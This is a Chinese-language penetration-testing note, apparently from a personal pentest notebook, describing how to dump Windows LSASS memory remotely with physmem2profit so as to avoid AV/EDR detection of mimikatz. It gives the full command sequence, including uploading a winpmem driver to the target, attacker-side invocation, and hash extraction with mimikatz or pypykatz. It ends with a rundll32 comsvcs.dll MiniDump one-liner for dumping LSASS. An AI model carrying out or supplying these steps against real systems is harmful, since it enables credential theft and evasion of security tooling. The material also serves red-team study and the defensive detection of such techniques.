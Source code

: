 	https://github.com/FSecureLABS/physmem2profit
	mimikatz被多数安全人员用来获取凭据，但现在的AV/EDR很轻易的识别并查杀，这里不在服务器端使用mimikatz，远程对lsass进程进行转储。
	服务器端直接使用visual studio构建
	physmem2profit-public\server\
![image](/assets/Pentest_Note/master/img/691.png)

	客户端
	>git clone --recurse-submodules https://github.com/FSecureLABS/physmem2profit.git
	客户端这里先安装
	>bash physmem2profit/client/install.sh
![image](/assets/Pentest_Note/master/img/692.png)

	需要将此文件
	https://github.com/Velocidex/c-aff4/raw/master/tools/pmem/resources/winpmem/att_winpmem_64.sys
	传到目标服务器，我这里存放在c:\windows\temp\中
	服务器端执行
	>Physmem2profit.exe --ip 192.168.0.98 --port 8888 –verbose这里的IP是服务器端IP
![image](/assets/Pentest_Note/master/img/693.png)

	攻击端安装所需模块
![image](/assets/Pentest_Note/master/img/694.png)

	攻击端执行
	>source physmem2profit/client/.env/bin/activate
	>cd physmem2profit/client
	>python3 physmem2profit --mode all --host 192.168.0.98 --port 8888 --drive winpmem --install 'c:\windows\temp\att_winpmem_64.sys' --label test
![image](/assets/Pentest_Note/master/img/695.png)

	服务器端可以看到
![image](/assets/Pentest_Note/master/img/696.png)

	把生成的dmp文件转移到win系统上使用mimikatz即可获得hash，当然也可以在linux上使用pypykatz。
![image](/assets/Pentest_Note/master/img/697.png)
![image](/assets/Pentest_Note/master/img/698.png)

	再来一条转储lsass进程的命令
	要以system权限执行
	>rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump <lsass pid> lsass.dmp full
![image](/assets/Pentest_Note/master/img/699.png)